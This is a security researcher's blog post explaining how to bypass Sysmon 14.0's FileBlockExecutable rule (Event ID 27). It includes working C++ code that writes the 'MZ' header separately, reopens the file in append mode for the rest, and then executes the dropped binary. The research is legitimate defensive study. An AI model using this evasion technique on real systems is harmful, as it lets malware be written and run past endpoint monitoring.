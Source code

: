 ```yaml
---
layout: article
title: "Sysmon EID 27 Bypass" 
categories: [Cybersecurity]
author: Ahmed Elmayyah
tags: [Cybersecurity, Programming, C, Exploitation]
mode: normal 
header:
  theme: dark
article_header:
  type: cover 
  theme: dark
  background_image: false
# Stick to an image with a height of 700
  image:
    src: /assets/images/sysmon-eid-27-bypass/sysmon_header.jpg
cover: /assets/images/sysmon-eid-27-bypass/sysmon_cover.jpg
---
```


# Sysmon EID 27 

Sysmon version 14.0 was released on the 16th of August 2022. The new version introduces a new Event ID: 27 FileBlockExecutable. It is kind of new for sysmon to block something from happening completely. So, it was interesting to think of a way to bypass it!

I came across [this post by Olaf Hartong](https://medium.com/@olafhartong/sysmon-14-0-fileblockexecutable-13d7ba3dff3e). In this post, Olaf was previewing the new event and how it works on a surface level.
<!--more-->
> The same is true for an DLL/XLL/WLL file since that will share the same MZ header.

It seemed apparent that the new rule is using the MZ header(explained below) to detect if the file is a Windows executable or not.

# Preparation

Taking the simple config file from the post for demonstration purposes, I installed Sysmon 14.0 on my Windows 10 VM and set the config file below. The file basically sets the rule to fire on any executable file in the Downloads folder of any user.
```xml
<Sysmon schemaversion="4.82">
   <EventFiltering>
      <RuleGroup name="" groupRelation="or">
         <FileBlockExecutable onmatch="include">
            <TargetFilename condition="contains all">C:\Users;Downloads</TargetFilename>
         </FileBlockExecutable>
      </RuleGroup>
   </EventFiltering>
</Sysmon>
```

I also wrote a very simple executable which prints out "Catch me if you can, Sysmon!". This is the executable that I'm going to try to drop and run from the Downloads folder. This executable as a start is placed in Documents\App.exe.

In an actual attack scenario, the file would be recieved from a remote server or perhaps embedded in the file itself. But this is for demonstration only so it shouldn't really matter as Sysmon doesn't care where the file originated. All it cares about is the writing of an executable to the specified folders.
{:.info}


{: style="text-align:center"} 
![Output of the program](/assets/images/sysmon-eid-27-bypass/App.exe.png)

I also opened the event viewer and set a filter for event 27 at Application and Services Logs/Microsoft/Windows/Sysmon/Operational.

{: style="text-align:center"}
![Sysmon Filter](/assets/images/sysmon-eid-27-bypass/SysmonFilter.png)


To verify that Sysmon is working and will detect attempts to write an executable in the Downloads folder, I used the following simple program to write the file.

```cpp
#include <Windows.h>

int main()
{
	//Open an existing executable, for demonstration purposes
	HANDLE executableFile = CreateFileA("C:\\Users\\Satharus\\Documents\\App.exe",
		GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	//Allocate a buffer for the file and read it
	unsigned long long fileSize = GetFileSize(executableFile, NULL);
	char *fileBytes = (char *)malloc(fileSize);
	unsigned int bytesRead;
	ReadFile(executableFile, fileBytes, fileSize, (LPDWORD)&bytesRead, NULL);
	CloseHandle(executableFile);

	//Create a new file with write permissions
	HANDLE downloadsFile = CreateFileA("C:\\Users\\Satharus\\Downloads\\App.notexe",
		GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

	//Write the executable file
	WriteFile(downloadsFile, fileBytes, fileSize, NULL, NULL);
	return 0;
}
```


{: style="text-align:center"}
![Sysmon Filter](/assets/images/sysmon-eid-27-bypass/WithoutBypass.png)
{: style="text-align:center"}
As expected, Sysmon detects the creation of the file and blocks it.


# The Bypass

## A little bit of background
If you don't know, file formats typically have a [sequence of bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) known as file signatures, file headers, or more commonly, Magic Bytes. They're used by operating systems and programs to detect file formats even if their names don't contain the file extension.

The Windows Portable Executable format uses a file header/signature of MZ (the bytes 4D and 5A). That includes all executables, including .exe, .dll, .sys, etc...

## Primal instinct
My very first thought was to zero out the MZ header and try to execute the file as is. That way Sysmon wouldn't detect it but I'd still be able to execute it just fine. However, that failed as `CreateProcess()` failed to execute a binary that doesn't have an MZ header. Running the executable from PowerShell or the command line prompt didn't work either. Interestingly enough, this proved some points:
 - Sysmon relied on the MZ header to detect an executable, as writing an entire binary without "MZ" worked just fine. 
 - Sysmon doesn't rely on the bytes "MZ" alone as when writing those to a file it doesn't detect anything.


So it seems like Sysmon relies on "MZ" alongside _something_ else to detect that it is an executable.

## The Actual bypass
Puting two and two together, what if we just wrote the file on two stages. We can write the string "MZ" first, and then write the rest of the file.

At first, I tried making two different calls to `WriteFile()` using the same file handle obtained from `CreateFileA()`. Sysmon was able to detect and block that just fine. However, the following steps worked:
 1. Create a file
 2. Write "MZ" to the file
 3. Close the handle to the file
 4. Open a handle to the same file in append mode
 5. Append the rest of the content to the file (make sure to skip the first two bytes)
 6. Close the handle
 7. Profit??

```cpp
#include <Windows.h>

int main()
{
	//Open an existing executable, for demonstration purposes
	HANDLE executableFile = CreateFileA("C:\\Users\\Satharus\\Documents\\App.exe",
		GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	//Allocate a buffer for the file and read it
	unsigned long long fileSize = GetFileSize(executableFile, NULL);
	char *fileBytes = (char *)malloc(fileSize);
	unsigned int bytesRead;
	ReadFile(executableFile, fileBytes, fileSize, (LPDWORD)&bytesRead, NULL);
	CloseHandle(executableFile);

	//Create a new file with write permissions to write the MZ header
	HANDLE downloadsFile = CreateFileA("C:\\Users\\Satharus\\Downloads\\App.notexe",
		GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

	//Write the MZ header
	WriteFile(downloadsFile, "MZ", 2, NULL, NULL);

	//Close the file, this is extremely necessary to bypass sysmon
	CloseHandle(downloadsFile);

	//Get a handle to the file in append mode to write the rest of the file
	downloadsFile = CreateFileA("C:\\Users\\Satharus\\Downloads\\App.notexe",
		FILE_APPEND_DATA, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	//Write the rest of the file, skipping the first two bytes of the file
	WriteFile(downloadsFile, fileBytes + 2, fileSize - 2, NULL, NULL);
	CloseHandle(downloadsFile);

	//Create a new process using the executable we just very _stealthily_ dropped!
	STARTUPINFOA si;
	PROCESS_INFORMATION pi;
	CreateProcessA("C:\\Users\\Satharus\\Downloads\\App.notexe", NULL,
		NULL, NULL, true, 0, NULL, NULL, &si, &pi);
	return 0;
}
```

This worked flawlessly. 

Simple? Yes. 

Stupid? Probably. 

Effective? Definitely!


Thanks a lot for reading! As usual, I hope you learned something or at least found it interesting!
